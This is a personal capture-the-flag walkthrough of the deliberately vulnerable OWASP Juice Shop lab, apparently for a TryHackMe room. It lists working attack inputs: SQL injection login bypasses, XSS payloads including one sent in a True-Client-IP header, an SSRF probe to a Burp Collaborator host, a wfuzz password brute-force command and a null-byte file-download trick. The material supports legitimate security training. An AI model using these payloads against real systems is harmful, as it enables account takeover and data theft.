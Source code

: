 ```yaml
---
tags:
---
```


**Machine**: http://juice-shop.herokuapp.com/#/ | https://github.com/juice-shop/juice-shop
**Difficulty**: sperm (extremly easy)
**CWE-list**: 

-----

As this is an webshop we will wanbt to try this functionallities
- Registration
- Login
- Buying an item
- Possibly returning an item
- Our wallet functionality if exists
- Logic flaws
- XSS
    - Stored
    - Reflected
- Basket functionality
- Adresses
- IDORs
- CSRF
- Broken access control if we can get to admin functions

#### Prepare
1. Open burpsuite
2. Set up the scope for the target
	![[Pasted image 20250427221451.png]]
	- Set `juice-shop.herokuapp.com` or localhost as host
3. Set up proxy configuration
	![[Pasted image 20250427221756.png]]
	![[Pasted image 20250427221852.png]]
		This will make any hidden fields easier to see as it will unhide them and draw a big red square around them. If you see this big red square you know you are looking at a hidden field.

#### Manually walking the application
In this phase we need to get know how does the application works. We still are not sure if there are admin functionallities, but we know exists
- Authencticated users 
- Unathenticated users (not llogged in)


### Registration
Register using an attack vector that automatically tests for JS XSS, HTML injection and HTML tag attribute injection.
`'"><u>hello`
`'"><u>THE XSS RAT WAS HERE${7'*7'}`
![[Pasted image 20250428180740.png]]
When we look at the inspector we could see its broken.
![[Pasted image 20250428180814.png]]
##### Avatar image feature
They accept an URL which may introduce a SSRF
![[Pasted image 20250428181412.png]]
	Try a self hosted url or a public burpcollaborator like `http://s5yf4ljmn9wgf95dcykd4iu7zy5otd.burpcollaborator.net/`
#### LOGIN

You log by default as an admin, so put this in the username field
```
' or 1=1--
```
Log as Bender
```
bender@juice-sh.op'-- -
```

#### BOLA
You could bruteforce that using wfuzz, redirecting the output to a file, but i'd prefer to send them to caido, as localhost:8081, and saw them on the HTTP history
```sh
wfuzz -u http://10.10.96.201/rest/user/login -d '{"email":"admin@juice-sh.op","password":"FUZZ"}' -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt -H "Content-Type: application/json" -p localhost:8081
```
And then filter by the 200 status code response
On the other hand, to 

### Information Disclosure
The methodology to solve this was to read the avaible content, continuing exploring the website.
TO solve that part download certain confidential document:
```sh
wget http://10.10.235.245/ftp/acquisitions.md 
```
Downloas a backup using an Null byte [[Injection]]
```url
http://10.10.235.245/ftp/package.json.bak%2500.md
```
### Broken access control
Load the page with the source from the inspector open
![[Pasted image 20241101135255.png]]
And see the admin page
![[Pasted image 20241101135430.png]]
So request the `/#/administration` path, and get rid of the 5 stars commit

### Don't see the flags?
and if you don't see the flag try requesting the root page (`http://10.10.235.245` e,g.)

For the next flag you need to intercept the basket, and change 1 to 2, as says in [[Injection]]
>"*Try providing a string where a number is expected, a number where a string is expected, and a number or string where a Boolean value is expected. If an API is expecting a small number, send a large number, and if it expects a small string, send a large one*"

### XSS
XSS or Cross-site scripting is a vulnerability that allows attackers to run javascript in web applications. These are one of the most found bugs in web applications. Their complexity ranges from easy to extremely hard, as each web application parses the queries in a different way. 

**There are three major types of XSS attacks:**

|   |   |
|---|---|
|DOM (Special)|DOM XSS _(Document Object Model-based Cross-site Scripting)_ uses the HTML environment to execute malicious javascript. This type of attack commonly uses the _<script></script>_ HTML tag.|
|Persistent (Server-side)|Persistent XSS is javascript that is run when the server loads the page containing it. These can occur when the server does not sanitise the user data when it is **uploaded** to a page. These are commonly found on blog posts.|
|Reflected (Client-side)|Reflected XSS is javascript that is run on the client-side end of the web application. These are most commonly found when the server doesn't sanitise **search** data.|

Note that we are using **iframe** which is a common HTML element found in many web applications, there are others which also produce the same result. 

This type of XSS is also called XFS (Cross-Frame Scripting), is one of the most common forms of detecting XSS within web applications.

Websites that allow the user to modify the iframe or other DOM elements will most likely be vulnerable to XSS.   

**Why does this work?**

It is common practice that the search bar will send a request to the server in which it will then send back the related information, but this is where the flaw lies. Without correct input sanitation, we are able to perform an XSS attack against the search bar.

We control the IP parameter so when the admin try to access to he get the XSS
![[Pasted image 20241101150148.png]]
But the application is scaping the xss payload, so use this instead:
```http
True-Client-IP: <img src=x onerror=alert('XSS')>
```
then logout from the admin account if you are not logged and login after the request and go to the last ip page
![[Pasted image 20241101151250.png]]
### access to 
```
http://10.10.20.11//#/score-board
```

Hello dear team of TryHackMe, i start to do your rooms and i want to thank you because they are so useful and fun, is excellent content, however there's an issue in https://tryhackme.com/r/room/owaspjuiceshop room which i do not know if that is done in purspose, but the write up suggest me to do ip spoofing to trigger XSS with this payload `True-Client-IP: <iframe src="javascrip:alert(`xss`)"` but it's never triggered because it's scaped by the application, so i did `True-Client-IP: <img src=x onerror=alert('XSS')>` instead and the XSS alert get triggered successfully, but the flag never appear, even after load the root page, i don't know what's going wrong, so i wait for your answer. Many thanks for your time!

`POST /api/Addresss/HTTP/1.1`
>You successfully solved a challenge: Error Handling (Provoke an error that is neither very gracefully nor consistently handled.)

#### Basket functionallity
- Represents the workflo in a diagram
	![[Pasted image 20250428180041.png]]